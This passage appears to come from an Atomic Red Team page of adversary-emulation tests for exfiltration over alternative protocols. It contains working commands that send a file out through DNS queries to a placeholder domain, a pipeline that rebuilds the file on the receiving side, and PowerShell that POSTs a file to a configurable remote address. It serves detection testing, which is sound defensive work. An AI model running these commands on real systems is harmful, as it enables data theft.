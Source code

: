 1. On the adversary machine run the below command.

   tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches ".domain"" >> received_data.txt

2. On the victim machine run the below commands.

   xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done

3. Once the data is received, use the below command to recover the data.

   cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r

<br/>
<br/>

## Atomic Test #4 - Exfiltration Over Alternative Protocol - HTTP

Exfiltration of specified file over HTTP.
Upon successful execution, powershell will invoke web request using POST method to exfiltrate notepad.exe to a remote address (default http://127.0.0.1). Results will be via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** 6aa58451-1121-4490-a8e9-1dada3f1c68c

#### Inputs:

| Name       | Description                                          | Type   | Default Value                               |
| ---------- | ---------------------------------------------------- | ------ | ------------------------------------------- |
| input_file | Path to file to exfiltrate                           | path   | C:&#92;Windows&#92;System32&#92;notepad.exe |
| ip_address | Destination IP address where the data should be sent | string | http://127.0.0.1                            |

#### Attack Commands: Run with `powershell`!

```powershell
$content = Get-Content #{input_file}
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body $content
```

<br/>
<br/>

## Atomic Test #5 - Exfiltration Over Alternative Protocol - SMTP

Exfiltration of specified file over SMTP.
Upon successful execution, powershell will send an email with attached file to exfiltrate to a remote address. Results will be via stdout.

**Supported Platforms:** Windows

**auto_generated_guid:** ec3a835e-adca-4c7c-88d2-853b69c11bb9
